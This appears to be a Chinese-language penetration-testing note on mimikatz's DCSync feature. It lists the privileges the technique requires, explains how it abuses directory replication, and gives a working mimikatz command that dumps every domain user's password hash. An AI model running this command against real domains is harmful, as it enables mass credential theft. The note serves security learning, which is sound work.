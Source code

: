 ![](/assets/images/move/2020-07-05-22-01-13.png)

[DCSync](https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-DCSync/) 是 mimikatz 在 2015 年添加的一个功能，由 Benjamin DELPY gentilkiwi 和 Vincent LE TOUX 共同编写，能够用来导出域内所有用户的 hash.

**利用条件：**

获得以下任一用户的权限：

- Administrators 组内的用户
- Domain Admins 组内的用户
- Enterprise Admins 组内的用户
- 域控制器的计算机帐户

**利用原理:**

利用 DRS(Directory Replication Service) 协议通过 IDL_DRSGetNCChanges 从域控制器复制用户凭据.


导出域内所有用户的 hash：

```cmd
mimikatz.exe "lsadump::dcsync /domain:hack.site /all /csv" exit
```

![](/assets/images/move/2020-07-05-22-21-35.png)
